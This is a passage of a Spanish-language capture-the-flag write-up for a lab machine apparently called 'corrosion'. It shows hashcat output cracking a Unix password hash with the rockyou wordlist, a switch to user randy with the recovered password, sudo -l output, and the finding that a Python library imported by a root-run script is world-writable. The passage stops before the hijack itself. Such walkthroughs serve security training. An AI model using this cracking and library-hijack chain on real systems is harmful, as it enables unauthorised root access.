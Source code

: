 ```java
* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:07051986randy
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQ...FHJGY/
Time.Started.....: Thu Jan 19 18:50:05 2023 (4 hours, 28 mins)
Time.Estimated...: Thu Jan 19 23:18:47 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      686 H/s (17.28ms) @ Accel:1024 Loops:64 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13933568/14344385 (97.14%)
Rejected.........: 0/13933568 (0.00%)
Restore.Point....: 13932544/14344385 (97.13%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: 070591tow -> 0704279
Hardware.Mon.#1..: Util: 84%

Started: Thu Jan 19 18:48:54 2023
Stopped: Thu Jan 19 23:18:50 2023
```
Con la contrasela encontrada `07051986randy`,se a utiliza para hacer cambio de usuario, con el parametreo `su - randy`.

```java
jaye@corrosion:~/Files$ su randy 
Password: 
randy@corrosion:/home/jaye/Files$ 
```
Para verificar los archivos con permips SUID, utilizamos `sudo -l`

```java
randy@corrosion:~$ sudo -l
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```
En la fase listar permisos sudo, encontramos el archivo `randombase64.py` tiene permisos para ejecutarse con usuario root,y listando el contenido con cat se puede verificar que utiliza la libreria `base64`.
```java
randy@corrosion:~$ cat randombase64.py 
import base64
message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')
print(base64_message)
randy@corrosion:~$ locate base64
```
Para encontrar el archivo `base64.py`, `podemos utilizar locate o which^`, y con los permisos utilizados se pude verificar que el archivo `base64.py` tiene permisos `777`.